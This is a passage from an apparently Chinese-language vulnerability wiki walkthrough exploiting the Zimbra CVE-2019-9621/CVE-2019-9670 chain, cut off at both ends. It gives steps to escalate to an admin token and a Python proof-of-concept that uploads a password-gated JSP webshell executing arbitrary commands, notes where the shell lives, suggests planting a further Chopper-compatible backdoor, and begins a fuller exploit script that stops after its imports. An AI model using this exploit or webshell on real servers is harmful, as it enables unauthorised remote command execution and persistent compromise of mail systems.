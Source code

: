Cookie中设置`Key为ZM_ADMIN_AUTH_TOKEN`，值为上面请求所获取的token，将`xmlns="urn:zimbraAccount"`修改为`xmlns="urn:zimbraAdmin"`，在Host字段末尾添加":7071"，URL中的target要使用https协议。然后发送请求即可获得admin权限的token。

### 第五步：利用高权限token传文件getshell

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId33.png)

将上一步获取的admin权限token添加到cookie中，然后上传webshell。

Webshell路径为/downloads/k4x6p.jsp，访问该webshell时需要在cookie中添加admin\_toke。

你可以利用此webshell在其他无需cookie即可访问的目录里创建一个可用菜刀连接的小马。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId34.png)

**简易poc**

    import requests

    file= {
    'filename1':(None,"whocare",None),
    'clientFile':("sunian.jsp",r'<%if("023".equals(request.getParameter("pwd"))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>',"text/plain"), 
    'requestId':(None,"12",None),
    }
    headers ={ 
    "Cookie":"ZM_ADMIN_AUTH_TOKEN=0_eb68a2a147c98c6d0c2257d7638c4f1256493b28_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313539323733343831303035313b61646d696e3d313a313b747970653d363a7a696d6272613b7469643d393a3433323433373532323b",#改成自己的admin_token
    "Host":"foo:7071"
    }
    r=requests.post("https://192.168.37.137:7071/service/extension/clientUploader/upload",files=file,headers=headers,verify=False)    
    print(r.text)

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId35.png)

> 虽然执行报错了，但是不影响> shell地址：https://www.0-sec.org:7071/downloads/sunian.jsp

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId36.png)

### 完整版exp

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId38.png)

    #coding=utf8
    import requests
    import sys
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    base_url=sys.argv[1]
    base_url=base_url.rstrip("/")
    #利用request模块来发包和接受数据，sys模块用来传参，并删除最右侧的/斜杠
